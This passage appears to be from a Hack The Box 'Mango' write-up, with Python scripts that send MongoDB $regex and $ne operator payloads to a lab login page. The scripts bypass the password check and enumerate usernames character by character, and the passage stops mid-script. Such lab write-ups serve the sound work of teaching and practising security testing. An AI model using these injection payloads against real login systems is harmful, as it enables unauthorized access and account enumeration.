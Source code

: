 ```python
	getUser()

```

This is the python code. It will list all letters present in all the usernames in the DB.

![image.png](/images/mango/image9.png)
The pyhton code has found the 7 valid letters i.e ‘a’, ‘d’, ‘g’, ‘i’, ‘m’, ‘n’, ‘o’. Now we have all the valid letter, the next step is to find the actual username from that valid letters. First we need to find the starting letter of the username. For that also I will write a python code.

```python
from requests import post
from string import ascii_lowercase

url = 'http://staging-order.mango.htb/'
valid = ['a', 'd', 'g', 'i', 'm', 'n', 'o']

def sendPayload(word):
    regex = '^{}.*'.format(word)
    data = {
        'username[$regex]': regex,
        'password[$ne]': 'password',
        'login': 'login'
    }
    response = post(url, data=data, allow_redirects=False)
    if response.status_code == 302:
        return word
    else:
        return None

def getUser():
    for char in valid:
        if sendPayload(char) is not None:
            print("Found username starting with {}".format(char))

if __name__ == '__main__':
    getUser()
```

The caret symbol ^ in regex is used to mark the beginning of a word. For example, the pattern ^a.* will return true only if the username starts with an a . Similarly, the pattern ^ad.* returns true if a username starting with ad exists and so on. The script loops through the character set to find usernames beginning with any one of those letters.

![image.png](/images/mango/image10.png)
There are 2 username one beginning with letter a and other that begin with letter m. With these information, now let’s write a python code to get the actual username. 

```python
from requests import post
from string import ascii_lowercase

url = 'http://staging-order.mango.htb/'
valid = ['a', 'd', 'g', 'i', 'm', 'n', 'o']

def sendPayload(word):
    for char in valid:
        regex = '^{}{}.*'.format(word, char)
        data = {
            'username[$regex]': regex,
            'password[$ne]': 'password',
            'login': 'login'
        }
        response = post(url, data=data, allow_redirects=False)
```
